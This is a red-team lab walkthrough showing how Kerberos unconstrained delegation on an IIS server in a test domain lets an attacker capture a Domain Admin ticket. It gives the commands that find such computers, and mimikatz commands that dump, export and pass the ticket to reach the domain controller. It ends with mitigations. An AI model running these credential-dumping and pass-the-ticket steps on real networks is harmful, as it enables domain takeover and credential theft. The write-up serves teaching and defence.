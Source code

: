 # Kerberos Unconstrained Delegation

This lab explores a security impact of unrestricted kerberos delegation enabled on a domain computer.

## Overview

* Unrestricted kerberos delegation is a privilege that can be assigned to a domain computer or a user;
* Usually, this privilege is given to computers (in this lab, it is assigned to a computer IIS01) running services like IIS, MSSQL, etc.;
* Those services usually require access to some back-end database (or some other server), so it can read/modify the database on the authenticated user's behalf;
* When a user authenticates to a computer that has unresitricted kerberos delegation privilege turned on, authenticated user's TGT ticket gets saved to that computer's memory;
* The reason TGTs get cached in memory is so the computer (with delegation rights) can impersonate the authenticated user as and when required for accessing any other services on that user's behalf.

Essentially this looks like so:\
`User` --- authenticates to ---> `IIS server` ---> authenticates on behalf of the user ---> `DB server`

{% hint style="warning" %}
Any user authentication (i.e CIFS) to the computer with unconstrained delegation enabled on it, will cache that user's TGT in memory, which can later be dumped and reused by an adversary.
{% endhint %}

## Setup

Let's give one of our domain computers/our victim computer `IIS01` unrestricted kerberos delegation privilege:

![](<../../.gitbook/assets/Screenshot from 2018-10-29 22-50-27.png>)

To confirm/find computers on a domain that have unrestricted kerberos delegation property set:

```csharp
Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroupid -eq 515} -Properties trustedfordelegation,serviceprincipalname,description
```

We can see our victim computer `IIS01` with `TrustedForDelegation` field set to `$true` - we are good to attack:

![](<../../.gitbook/assets/Screenshot from 2018-10-29 23-08-06.png>)

## Execution

On the computer IIS01 with kerberos delegation rights, let's do a base run of mimikatz to see what we can find in memory:

```csharp
sekurlsa::tickets
```

![](<../../.gitbook/assets/Screenshot from 2018-10-29 23-35-01.png>)

Note that we do not have a TGT for `offense\administrator` (Domain Admin) just yet.

Let's now send an HTTP request to `IIS01` from a `DC01` host from the context of offense\administrator:

```csharp
Invoke-WebRequest http://iis01.offense.local -UseDefaultCredentials -UseBasicParsing
```

We see the request got a `HTTP 200 OK` response:

![](<../../.gitbook/assets/Screenshot from 2018-10-29 23-35-20.png>)

Let's check the victim host `IIS01` for new kerberos tickets in memory:

```
mimikatz # sekurlsa::tickets
```

![](<../../.gitbook/assets/Screenshot from 2018-10-29 23-40-27.png>)

We can see that the IIS01 has now got a TGT for offense\administrator - this means that we have effectively compromised the entire offense.local domain. We will get back to this in a  moment.

First, let's export all kerberos tickets from IIS01 memory, so we can load offense\administrator ticket TGT into the current session and assume its privileges:

```csharp
mimikatz::tickets /export
```

![](<../../.gitbook/assets/Screenshot from 2018-10-29 23-56-20.png>)

..but before we proceed with `pass-the-ticket` attack and become a DA, let's try PSRemoting to the `DC01` from `IIS01` and check currently available kerberos tickets in a current logon session - just to make sure we currently do not have DA rights:

![](<../../.gitbook/assets/Screenshot from 2018-10-29 23-49-58.png>)

Above screenshow shows that there are no tickets and PSSession could not be established - as expected.

Let's now proceed and import the previously dumped offense\administrator TGT into our current logon session on the `IIS01` host:

```csharp
mimikatz # kerberos::ptt C:\Users\Administrator\Desktop\mimikatz\[0;3c785]-2-0-40e10000-Administrator@krbtgt-OFFENSE.LOCAL.kirbi
```

![](<../../.gitbook/assets/Screenshot from 2018-10-29 23-50-40.png>)

Once the TGT is imported on IIS01, let's check available tickets and try connecting to the `DC01` again:

![](<../../.gitbook/assets/Screenshot from 2018-10-29 23-59-12.png>)

As you can see from the above screengrab, the `IIS01` system now contains a `krbtgt` for offense\administrator, which enables this session to access `DC01` C$ share and establish a PSSession with an interactive shell with Domain admin privileges.

### Reminder

Note that successful authentication to ANY service on the IIS01 will cache the authenticated user's TGT. Below is an example of a user `offense\delegate` accessing a share on `IIS01` - the TGT gets cached:

![](<../../.gitbook/assets/Screenshot from 2018-10-30 21-40-29.png>)

## Mitigation

Some of the available mitigations:

* Disable kerberos delegation where possible
* Be cautious of whom you give privilege **Enable computer and user accounts to be trusted for delegation** - these are users who can enable unrestricted kerberos delagation
* Enable **Account is sensitive and cannot be delegated** for high privileged accounts

## References

{% embed url="https://adsecurity.org/?p=1667" %}

{% embed url="https://blog.xpnsec.com/kerberos-attacks-part-1/" %}

{% embed url="https://blogs.technet.microsoft.com/askds/2008/03/06/kerberos-for-the-busy-admin/" %}
